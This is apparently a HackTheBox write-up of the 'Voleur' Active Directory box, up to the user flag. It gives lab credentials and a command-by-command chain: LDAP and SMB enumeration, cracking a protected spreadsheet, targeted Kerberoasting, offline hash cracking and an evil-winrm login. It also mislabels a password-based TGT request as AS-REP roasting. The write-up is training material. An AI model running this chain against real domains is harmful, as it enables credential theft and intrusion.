

# HackTheBox - Voleur

## Enumeration  

> As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt

### Nmap  

```bash  

PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-10-16 03:14:37Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
2222/tcp open  ssh           syn-ack ttl 127 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
<REDACTED>
Host script results:
|_clock-skew: 8h00m09s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 8814/tcp): CLEAN (Timeout)
|   Check 2 (port 48495/tcp): CLEAN (Timeout)
|   Check 3 (port 60782/udp): CLEAN (Timeout)
|   Check 4 (port 48368/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-16T03:14:49
|_  start_date: N/A
```  

```bash  
echo 10.10.11.76 voleur.htb | sudo tee -a /etc/hosts
```

### LDAP  

```bash  

[Oct 15, 2025 - 20:35:42 (CET)] exegol-htb /workspace # ldapsearch -x -H ldap://10.10.11.76 -D "ryan.naylor@voleur.htb" -w "HollowOct31Nyt" -b "DC=voleur,DC=htb" "(objectClass=user)" sAMAccountName memberOf description

# Administrator, Users, voleur.htb
dn: CN=Administrator,CN=Users,DC=voleur,DC=htb
description: Built-in account for administering the computer/domain
memberOf: CN=Group Policy Creator Owners,CN=Users,DC=voleur,DC=htb
memberOf: CN=Domain Admins,CN=Users,DC=voleur,DC=htb
memberOf: CN=Enterprise Admins,CN=Users,DC=voleur,DC=htb
memberOf: CN=Schema Admins,CN=Users,DC=voleur,DC=htb
memberOf: CN=Administrators,CN=Builtin,DC=voleur,DC=htb
sAMAccountName: Administrator

# Guest, Users, voleur.htb
dn: CN=Guest,CN=Users,DC=voleur,DC=htb
description: Built-in account for guest access to the computer/domain
memberOf: CN=Guests,CN=Builtin,DC=voleur,DC=htb
sAMAccountName: Guest

# DC, Domain Controllers, voleur.htb
dn: CN=DC,OU=Domain Controllers,DC=voleur,DC=htb
sAMAccountName: DC$

# krbtgt, Users, voleur.htb
dn: CN=krbtgt,CN=Users,DC=voleur,DC=htb
description: Key Distribution Center Service Account
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=voleur,DC=htb
sAMAccountName: krbtgt

# Ryan Naylor, First-Line Support Technicians, voleur.htb
dn: CN=Ryan Naylor,OU=First-Line Support Technicians,DC=voleur,DC=htb
description: First-Line Support Technician
memberOf: CN=First-Line Technicians,DC=voleur,DC=htb
sAMAccountName: ryan.naylor

# Marie Bryant, First-Line Support Technicians, voleur.htb
dn: CN=Marie Bryant,OU=First-Line Support Technicians,DC=voleur,DC=htb
description: First-Line Support Technician
memberOf: CN=First-Line Technicians,DC=voleur,DC=htb
sAMAccountName: marie.bryant

# Lacey Miller, Second-Line Support Technicians, voleur.htb
dn: CN=Lacey Miller,OU=Second-Line Support Technicians,DC=voleur,DC=htb
description: Second-Line Support Technician
memberOf: CN=Second-Line Technicians,DC=voleur,DC=htb
sAMAccountName: lacey.miller

# svc_ldap, Service Accounts, voleur.htb
dn: CN=svc_ldap,OU=Service Accounts,DC=voleur,DC=htb
memberOf: CN=Restore_Users,DC=voleur,DC=htb
sAMAccountName: svc_ldap

# svc_backup, Service Accounts, voleur.htb
dn: CN=svc_backup,OU=Service Accounts,DC=voleur,DC=htb
sAMAccountName: svc_backup

# svc_iis, Service Accounts, voleur.htb
dn: CN=svc_iis,OU=Service Accounts,DC=voleur,DC=htb
sAMAccountName: svc_iis

# Jeremy Combs, Third-Line Support Technicians, voleur.htb
dn: CN=Jeremy Combs,OU=Third-Line Support Technicians,DC=voleur,DC=htb
description: Third-Line Support Technician
memberOf: CN=Third-Line Technicians,DC=voleur,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb
sAMAccountName: jeremy.combs

# svc_winrm, Service Accounts, voleur.htb
dn: CN=svc_winrm,OU=Service Accounts,DC=voleur,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb
sAMAccountName: svc_winrm
```  

Now in short, we've got a users wordlist:  

```text
# User Accounts
Administrator
jeremy.combs
lacey.miller
marie.bryant
ryan.naylor

# Service Accounts
krbtgt: May be the target while attacking kerberos.
svc_backup: Could lead to something if the backup process is misconfigured.
svc_iis
svc_ldap
svc_winrm: We may use `evil-winrm` later.
```

As with groups, I tried to remove the useless ones for us and kept these:  

```bash  
[Oct 15, 2025 - 20:42:42 (CET)] exegol-htb /workspace # ldapsearch -x -H ldap://10.10.11.76 -D "ryan.naylor@voleur.htb" -w "HollowOct31Nyt" -b "DC=voleur,DC=htb" "(objectClass=group)" name member

# Administrators, Builtin, voleur.htb
dn: CN=Administrators,CN=Builtin,DC=voleur,DC=htb
member: CN=Domain Admins,CN=Users,DC=voleur,DC=htb
member: CN=Enterprise Admins,CN=Users,DC=voleur,DC=htb
member: CN=Administrator,CN=Users,DC=voleur,DC=htb
name: Administrators

# Remote Management Users, Builtin, voleur.htb
dn: CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb
member: CN=svc_winrm,OU=Service Accounts,DC=voleur,DC=htb
member: CN=Jeremy Combs,OU=Third-Line Support Technicians,DC=voleur,DC=htb
name: Remote Management Users

# Schema Admins, Users, voleur.htb
dn: CN=Schema Admins,CN=Users,DC=voleur,DC=htb
member: CN=Administrator,CN=Users,DC=voleur,DC=htb
name: Schema Admins

# Enterprise Admins, Users, voleur.htb
dn: CN=Enterprise Admins,CN=Users,DC=voleur,DC=htb
member: CN=Administrator,CN=Users,DC=voleur,DC=htb
name: Enterprise Admins

# Domain Admins, Users, voleur.htb
dn: CN=Domain Admins,CN=Users,DC=voleur,DC=htb
member: CN=Administrator,CN=Users,DC=voleur,DC=htb
name: Domain Admins

# Domain Users, Users, voleur.htb
dn: CN=Domain Users,CN=Users,DC=voleur,DC=htb
name: Domain Users

# Group Policy Creator Owners, Users, voleur.htb
dn: CN=Group Policy Creator Owners,CN=Users,DC=voleur,DC=htb
member: CN=Administrator,CN=Users,DC=voleur,DC=htb
name: Group Policy Creator Owners

# First-Line Technicians, voleur.htb
dn: CN=First-Line Technicians,DC=voleur,DC=htb
member: CN=Marie Bryant,OU=First-Line Support Technicians,DC=voleur,DC=htb
member: CN=Ryan Naylor,OU=First-Line Support Technicians,DC=voleur,DC=htb
name: First-Line Technicians

# Second-Line Technicians, voleur.htb
dn: CN=Second-Line Technicians,DC=voleur,DC=htb
member: CN=Lacey Miller,OU=Second-Line Support Technicians,DC=voleur,DC=htb
name: Second-Line Technicians

# Third-Line Technicians, voleur.htb
dn: CN=Third-Line Technicians,DC=voleur,DC=htb
member: CN=Jeremy Combs,OU=Third-Line Support Technicians,DC=voleur,DC=htb
name: Third-Line Technicians

# Restore_Users, voleur.htb
dn: CN=Restore_Users,DC=voleur,DC=htb
member: CN=svc_ldap,OU=Service Accounts,DC=voleur,DC=htb
name: Restore_Users

```  

### SMB  

#### Time Sync (should've been done much earlier)

```bash  
[Oct 15, 2025 - 21:05:00 (CET)] exegol-htb /workspace # netexec smb 10.10.11.76 -u "ryan.naylor" -p "HollowOct31Nyt" --shares -k          

SMB         10.10.11.76     445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    DC               [-] voleur.htb\ryan.naylor:HollowOct31Nyt KRB_AP_ERR_SKEW 
```  

We need to synchronize our time with the KDC time. After exrtracting the correct time from nmap output or netexec with `--debug`, I've synchronized the time on `exegol` using:  

```bash  
faketime '2025-10-16 06:42:37' zsh
```  

This will spawn a new shell within the main shell. `Tmux` proved helpful at this point so that you can execute commands with the synchronized faketime or your local time.

#### SMB Enumeration  

```bash  
[Oct 16, 2025 - 05:56:31 (CET)] exegol-htb /workspace # netexec smb 10.10.11.76 -u "ryan.naylor" -p "HollowOct31Nyt" -k --shares        
SMB         10.10.11.76     445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         10.10.11.76     445    DC               [*] Enumerated shares
SMB         10.10.11.76     445    DC               Share           Permissions     Remark
SMB         10.10.11.76     445    DC               -----           -----------     ------
SMB         10.10.11.76     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.76     445    DC               C$                              Default share
SMB         10.10.11.76     445    DC               Finance                         
SMB         10.10.11.76     445    DC               HR                              
SMB         10.10.11.76     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.76     445    DC               IT              READ            
SMB         10.10.11.76     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.76     445    DC               SYSVOL          READ            Logon server share 
```

And then Download from the `IT` share:

```bash  
netexec smb 10.10.11.76 -u "ryan.naylor" -p "HollowOct31Nyt" -k -M spider_plus -o DOWNLOAD_FLAG=true
```

This will download all the available files.

Do not perform it directly, you should try it without the `DOWNLOAD_FLAG` option to see if the files aren't that heavy. (Also more OPSEC Friendly :D).

Now here is our loot:  

```text  
nxc_spider_plus
├── loot
│   ├── IT
│   │   └── First-Line Support
│   │       └── Access_Review.xlsx
│   └── SYSVOL
│       └── voleur.htb
│           └── Policies
│               ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│               │   ├── GPT.INI
│               │   └── MACHINE
│               │       ├── Microsoft
│               │       │   └── Windows NT
│               │       │       ├── Audit
│               │       │       │   └── audit.csv
│               │       │       └── SecEdit
│               │       │           └── GptTmpl.inf
│               │       └── Registry.pol
│               └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│                   ├── GPT.INI
│                   └── MACHINE
│                       └── Microsoft
│                           └── Windows NT
│                               └── SecEdit
│                                   └── GptTmpl.inf
└── shares.json
```

Here is `GptTmpl.inf` content:

```text  
Unicode=yes
[System Access]
MinimumPasswordAge = 1
MaximumPasswordAge = 42
MinimumPasswordLength = 7
PasswordComplexity = 1
PasswordHistorySize = 24
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Version]
signature="$CHICAGO$"
Revision=1
[Event Audit]
AuditAccountManage = 1
AuditDSAccess = 1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
```  

And here is the other `GptTmpl.inf`:

```text  
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Privilege Rights]
SeAssignPrimaryTokenPrivilege = *S-1-5-19,*S-1-5-20
SeAuditPrivilege = *S-1-5-19,*S-1-5-20
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeBatchLogonRight = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-559
SeChangeNotifyPrivilege = *S-1-1-0,*S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-11,*S-1-5-32-554
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeIncreaseBasePriorityPrivilege = *S-1-5-32-544,*S-1-5-90-0
SeIncreaseQuotaPrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544
SeInteractiveLogonRight = *S-1-5-32-545,*S-1-5-32-549,*S-1-5-32-550,*S-1-5-9,*S-1-5-32-551,*S-1-5-32-544,*S-1-5-32-548
SeLoadDriverPrivilege = *S-1-5-32-544,*S-1-5-32-550
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-1-0,*S-1-5-32-544,*S-1-5-11,*S-1-5-9,*S-1-5-32-554
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-549
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549,*S-1-5-32-550
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-32-544,*S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
SeSystemTimePrivilege = *S-1-5-19,*S-1-5-32-544,*S-1-5-32-549
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel=4,5
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\RestrictReceivingNTLMTraffic=4,2
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
```  

Let's focus on the `xlsx` file, which was password-protected and easily crackable using `office2john` and unlocked with `football1`.  

Here is its content:  

  

And we update our users/passwords wordlists:  

```text  
Ryan.Naylor 
Marie.Bryant
Lacey.Miller
Todd.Wolfe:NightT1meP1dg3on14 (deleted)
Jeremy.Combs
Administrator


# Service Accounts
krbtgt: The target while attacking kerberos.
svc_backup: Could lead to something if the backup process is misconfigured.
svc_iis:N5pXyW1VqM7CZ8
svc_ldap:M1XyC9pW7qT5Vn
svc_winrm: We may use `evil-winrm` later.
```

## User flag

### Crafting a valid ryan TGT  

We can perform `AS-REP` roasting on user `ryan` because of a misconfigured pre-auth, we can get his TGT using:  

```bash  
[Oct 16, 2025 - 17:46:52 (CET)] exegol-htb voleur # getTGT.py voleur.htb/ryan.naylor:HollowOct31Nyt -dc-ip 10.10.11.76
[Oct 16, 2025 - 17:46:52 (CET)] exegol-htb voleur # export KRB5CCNAME=/workspace/voleur/ryan.naylor.ccache            
```

### Bloodhound  

```bash  
[Oct 16, 2025 - 17:46:06 (CET)] exegol-htb voleur # bloodhound.py --zip -c All  -u "ryan.naylor" -p "HollowOct31Nyt" -k -d voleur.htb -ns 10.10.11.76
<SNIP>
INFO: Compressing output into 20251016174622_bloodhound.zip
```

And then we run the `neo4j` to load the database:  

```bash  
[Oct 16, 2025 - 18:49:05 (CET)] exegol-htb bloodhound_python # neo4j start                                       
[Oct 16, 2025 - 18:49:05 (CET)] exegol-htb bloodhound_python # bloodhound
```  

After loading at bloodhound we get interesting findings:  

Attack Path: svc_ldap → GenericWrite on Lacey → WriteSPN on svc_winrm:

We get the `ldap_svc` hash:

```bash  
[Oct 16, 2025 - 18:56:13 (CET)] exegol-htb bloodhound_python # getTGT.py voleur.htb/svc_ldap:M1XyC9pW7qT5Vn -dc-ip 10.10.11.76

Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_ldap.ccache
[Oct 16, 2025 - 18:56:25 (CET)] exegol-htb bloodhound_python # export KRB5CCNAME=/workspace/voleur/bloodhound_python/svc_ldap.ccache 
```

Then attempt to get valid hashes:

```bash  
[Oct 16, 2025 - 19:00:01 (CET)] exegol-htb bloodhound_python # targetedKerberoast.py --dc-host dc.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn -k -d voleur.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (lacey.miller)
$krb5tgs$23$*<REDACTED>
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*<READACTED>
```

```bash  
[Oct 16, 2025 - 19:02:53 (CET)] exegol-htb bloodhound_python # john --wordlist=/usr/share/wordlists/rockyou.txt svc_winrm.hash
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS-REP etype 23 [MD4 HMAC-MD5 RC4])
AFireInsidedeOzarctica980219afi <REDACTED> (?)     

[Oct 16, 2025 - 19:03:17 (CET)] exegol-htb bloodhound_python # john --show svc_winrm.hash 
?:AFireInsidedeOzarctica980219afi <REDACTED>
1 password hash cracked, 0 left

[Oct 16, 2025 - 19:03:23 (CET)] exegol-htb bloodhound_python # john --wordlist=/usr/share/wordlists/rockyou.txt lacey.hash    

[Oct 16, 2025 - 19:03:39 (CET)] exegol-htb bloodhound_python # john --show lacey.hash 
0 password hashes cracked, 1 left
```  

And then create a TGT of `svc_winrm`:  

```bash  
[Oct 16, 2025 - 19:14:50 (CET)] exegol-htb /workspace # getTGT.py voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi -dc-ip 10.10.11.76

[Oct 16, 2025 - 19:14:55 (CET)] exegol-htb /workspace # export KRB5CCNAME=/workspace/voleur/bloodhound_python/svc_winrm.ccache
```

Fix some Kerberos config issues:

```bash  
[Oct 16, 2025 - 19:15:57 (CET)] exegol-htb /workspace # # Create/update krb5.conf
sudo tee /etc/krb5.conf << 'EOF'
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
        admin_server = dc.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
EOF

# Add to hosts file
echo "10.10.11.76 dc.voleur.htb" | sudo tee -a /etc/hosts
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
        admin_server = dc.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
10.10.11.76 dc.voleur.htb
```

Then login via:  

```bash  
[Oct 16, 2025 - 19:16:14 (CET)] exegol-htb /workspace # evil-winrm -i dc.voleur.htb -r voleur.htb 
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> whoami
voleur\svc_winrm
*Evil-WinRM* PS C:\Users\svc_winrm\Desktop> cat "C:/Users/svc_winrm/Desktop/user.txt"
```

